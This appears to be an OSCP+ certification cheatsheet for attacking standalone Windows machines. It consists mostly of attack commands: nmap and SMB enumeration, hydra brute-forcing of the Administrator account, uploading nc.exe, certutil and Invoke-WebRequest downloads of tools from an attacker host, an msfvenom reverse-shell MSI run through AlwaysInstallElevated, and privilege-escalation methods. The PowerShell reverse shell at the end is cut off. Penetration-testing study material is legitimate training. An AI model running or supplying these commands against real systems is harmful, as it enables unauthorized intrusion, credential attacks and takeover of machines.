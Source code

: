 # 🪟 OSCP+ Windows Standalone Cheatsheet

## 1. 🔍 Initial Enumeration (Before Exploit)

### 🔎 Nmap
```bash
nmap -sC -sV -Pn -p- <IP> -oN win_full.nmap
```

### 🔑 Common Ports
| Port | Service | Notes |
|------|---------|-------|
| 135  | RPC     | Use `rpcclient` |
| 139, 445 | SMB | Null sessions, shares |
| 3389 | RDP     | Brute-force weak creds |
| 5985 | WinRM   | PowerShell remoting |
| 496xx | High RPC ports | Seen in newer Windows |

### 🗂 SMB
```bash
smbclient -L \\\\<IP>\\ -N
smbclient \\\\<IP>\\share -N
enum4linux-ng -A <IP>
```

### 🧑‍💻 RPC
```bash
rpcclient -U "" <IP>
> enumdomusers
> queryuser RID
```

### 💻 WinRM
```bash
crackmapexec winrm <IP> -u user -p pass
```

---

## 2. 🧨 Initial Access / Exploitation

### 🔓 Exploits
- EternalBlue (MS17-010)
- RDP BlueKeep
- Web upload > RCE
- Weak passwords (SMB, WinRM)

```bash
hydra -l Administrator -P rockyou.txt smb://<IP>
```

### 📂 Upload via SMB
```bash
smbclient \\\\<IP>\\share
put nc.exe
```

Run using:
- `schtasks`
- `sc.exe`
- Registry run keys

---

## 3. 📈 Local Post-Exploitation

### 🧰 Tools
- `winPEASx64.exe`
- `whoami`, `net users`, `systeminfo`, etc.

### 🐚 Useful Commands
```powershell
whoami /priv
net user
net localgroup administrators
systeminfo
```

### 🔥 Upload Tools
```powershell
certutil -urlcache -f http://<IP>/winpeas.exe winpeas.exe
Invoke-WebRequest http://<IP>/nc.exe -OutFile nc.exe
```
---

## 4. 🚀 Privilege Escalation Techniques

| Method | Description |
|--------|-------------|
| AlwaysInstallElevated | Install MSI as SYSTEM |
| Unquoted Service Path | Drop `.exe` in path |
| DLL Hijacking | Replace a DLL |
| Token Impersonation | JuicyPotato/PrintSpoofer |
| Weak Service Permissions | Modify `binPath` |
| Stored Passwords | `.rdp`, `.ini`, `.xml` |

### 📦 AlwaysInstallElevated
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=PORT -f msi > shell.msi
msiexec /quiet /qn /i shell.msi
```

### 🪟 Unquoted Path
```powershell
sc qc <vuln_service>
```
Drop payload to match unquoted path like `C:\Program Files\test.exe`

---

## 5. 🎯 Capture Proofs

```powershell
type C:\Users\<user>\Desktop\user.txt
type C:\Users\Administrator\Desktop\root.txt
```
---

## 6. 🧼 Cleanup

```powershell
del C:\Users\Public\nc.exe
Remove-Item winpeas.exe
```

---

## 7. 🐚 Reverse Shell (PowerShell)

```powershell
powershell -nop -c "$client = ------"
```

---
## ✅ Bonus Tools

| Tool | Use |
|------|-----|
| winPEAS | Local enumeration |
| PowerUp.ps1 | PrivEsc checks |
| JuicyPotato.exe | Token escalation |
| Nishang | Payloads |
| CrackMapExec | Brute force + spray |

---

